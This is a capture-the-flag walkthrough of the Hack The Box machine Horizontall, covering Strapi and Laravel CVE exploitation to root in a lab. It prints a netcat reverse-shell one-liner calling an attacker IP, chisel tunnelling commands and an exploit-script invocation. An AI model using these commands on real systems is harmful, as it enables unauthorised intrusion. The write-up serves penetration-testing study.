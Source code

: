 # Horizontall

The first thing I did was run a <mark style="color:green;">`Rustscan`</mark> on the target to quickly gather open ports.

```bash
rustscan -a 10.129.151.240 -- -A -sC -sV
```

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDL2qJTqj1aoxBGb8yWIN4UJwFs4/UgDEutp3aiL2/6yV2iE78YjGzfU74VKlTRvJZWBwDmIOosOBNl9nfmEzXerD0g5lD5SporBx06eWX/XP2sQSEKbsqkr7Qb4ncvU8CvDR6yGHxmBT8WGgaQsA2ViVjiqAdlUDmLoT2qA3GeLBQgS41e+TysTpzWlY7z/rf/u0uj/C3kbixSB/upkWoqGyorDtFoaGGvWet/q7j5Tq061MaR6cM2CrYcQxxnPy4LqFE3MouLklBXfmNovryI0qVFMki7Cc3hfXz6BmKppCzMUPs8VgtNgdcGywIU/Nq1aiGQfATneqDD2GBXLjzV
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIyw6WbPVzY28EbBOZ4zWcikpu/CPcklbTUwvrPou4dCG4koataOo/RDg4MJuQP+sR937/ugmINBJNsYC8F7jN0=
|   256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJqmDVbv9RjhlUzOMmw3SrGPaiDBgdZ9QZ2cKM49jzYB
80/tcp open  http    syn-ack nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We add <mark style="color:green;">`horizontall.htb`</mark> to our <mark style="color:green;">`/etc/hosts`</mark> file since in the output we got "_Did not follow redirect to http://horizontall.htb_"

![](<../../../../.gitbook/assets/image (7) (1) (1).png>)

Searching on Google informs us that the latest version of <mark style="color:green;">`nginx`</mark> is 1.21.6 (mainline version) and 1.20.2 (stable version). We'll keep this in mind.

Going to the site, we see a web page.

![](<../../../../.gitbook/assets/image (36).png>)

Viewing the source code and going through the site really did not provide anything useful. However, is it possible for the <mark style="color:green;">`nginx`</mark> server to have more vhosts or subdomains? Using <mark style="color:green;">`ffuf`</mark>, we will see something.

```bash
ffuf -u http://horizontall.htb -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H 'Host: FUZZ.horizontall.htb' -fs 0 -mc 200 
```

![api-prod subdomain](<../../../../.gitbook/assets/image (30) (1) (1).png>)

Heading back over to the browser, we are presented with a basic welcome page.

![](<../../../../.gitbook/assets/image (42) (1).png>)

Time to enumerate some more. Now there are two interesting directories that we can explore.

![](<../../../../.gitbook/assets/image (35) (1).png>)

The reviews directory yields us some users: <mark style="color:green;">`wail`</mark>, <mark style="color:green;">`doe`</mark>, and <mark style="color:green;">`john`</mark>

![](<../../../../.gitbook/assets/image (33) (1).png>)

And the admin page

![](<../../../../.gitbook/assets/image (40) (1) (1).png>)

Doing a google search on <mark style="color:green;">`strapi`</mark> shows that it is an open source Node.js headless Content Management System (CMS)

Great! Now hopefully we can find a version number somewhere...

![](<../../../../.gitbook/assets/image (16) (1).png>)

It seems the current version of is <mark style="color:green;">`Strapi 3.0.0-beta.17.4`</mark>

![](<../../../../.gitbook/assets/image (37) (1).png>)

Using <mark style="color:green;">`searchsploit`</mark> gives us some good news. Remote Code Execution ([RCE](https://www.exploit-db.com/exploits/50239))!

![](<../../../../.gitbook/assets/image (58).png>)

According to [CVE-2019-18818](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2019-18818)

> strapi before 3.0.0-beta.17.5 mishandles password resets within packages/strapi-admin/controllers/Auth.js and packages/strapi-plugin-users-permissions/controllers/Auth.js."

There's also [CVE-2019-19609](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19609)

> The Strapi framework before 3.0.0-beta.17.8 is vulnerable to Remote Code Execution in the Install and Uninstall Plugin components of the Admin panel, because it does not sanitize the plugin name, and attackers can inject arbitrary shell commands to be executed by the execa function.

We run the exploit and then login

![](<../../../../.gitbook/assets/image (63).png>)

![](<../../../../.gitbook/assets/image (24) (1) (1).png>)

Awesome! Now there's Plugin called "Files Upload", let's see if we can upload a file to get a reverse shell.

I tried multiple times to get a shell, but the output of following the file yielded something like this:

![](<../../../../.gitbook/assets/image (69) (1).png>)

```
http://localhost:1337/uploads/0083c7ac6ed14dce9cc54821af03bf08.php
```

Which made sense based on the exploit code (that's why we see port 1337). I was thinking about if we could do something with changing the port, but that seemed like something too complex and lead to a deep rabbit hole. Then I thought, if we have RCE already from the exploit, couldn't we just try to get a shell that way?

As it turns out, that was a very quick solution

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.38 4444 >/tmp/f
```

![](<../../../../.gitbook/assets/image (64) (1).png>)

After upgrading my shell, I searched for the user.txt file

![](<../../../../.gitbook/assets/image (46) (1).png>)

I ran linepeas.sh and noticed something interesting. Looks like there is MySQL running and something else on port 8000. What is that port used for?

![](<../../../../.gitbook/assets/image (41) (1) (1).png>)

A Google search gave me this result

> TCP Port 8000 is commonly used for development environments of web server software. It generally should not be exposed directly to the Internet. If you are running software like this on the Internet, you should consider placing it behind a reverse proxy.
>
> [Source](https://www.elastic.co/guide/en/siem/guide/current/tcp-port-8000-activity-to-the-internet.html)

This most likely means we might have to do some port forwarding in order to see the website. But first let's see if we can grab some information before doing this.

Using <mark style="color:green;">`curl -v localhost:8000`</mark> gave us a site powered by Laravel AND it's version number

![](<../../../../.gitbook/assets/image (65).png>)

Searching for exploits I found these which were helpful

{% embed url="https://www.exploit-db.com/exploits/49424" %}

{% embed url="https://www.ambionics.io/blog/laravel-debug-rce" %}

{% embed url="https://github.com/nth347/CVE-2021-3129_exploit" %}

According to [CVE-2021-3129](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-3129)

> Ignition before 2.5.2, as used in Laravel and other products, allows unauthenticated remote attackers to execute arbitrary code because of insecure usage of file\_get\_contents() and file\_put\_contents(). This is exploitable on sites using debug mode with Laravel before 8.4.2.

#### Port Forwarding

Now to do some port forwarding. We'll use the [chisel ](https://github.com/jpillora/chisel)tool

We'll transfer it to our victim machine and make it an executable

![](<../../../../.gitbook/assets/image (34).png>)

Then we'll run the below commands on our kali machine and the victim machine respectively

```bash
./chisel server -p 7777 --reverse # Kali machine
./chisel client 10.10.14.38:7777 R:8000:127.0.0.1:8000 # on Victim
```

![](<../../../../.gitbook/assets/image (38) (1).png>)

![Victim machine](<../../../../.gitbook/assets/image (5) (2).png>)

Now when we go to <mark style="color:green;">`http://127.0.0.1:8000`</mark> in the browser, we can see the Laravel site

![](<../../../../.gitbook/assets/image (49) (1).png>)

#### Priv Esc

Using the GitHub resource for the Laravel vulnerability, we'll execute the following command

```python
./privesc.py http://localhost:8000 Monolog/RCE1 "whoami"
```

![](<../../../../.gitbook/assets/image (67) (1).png>)

Awesome! Now we can cat the root.txt file

![](<../../../../.gitbook/assets/image (59).png>)

This is nice, but a shell would be nicer :)

![](<../../../../.gitbook/assets/image (18) (1).png>)

![](<../../../../.gitbook/assets/image (55) (1).png>)

{% hint style="info" %}
Although we get a shell, it's not very stable. But it does the job regardless
{% endhint %}

SUCCESS!

![](<../../../../.gitbook/assets/image (15) (1).png>)
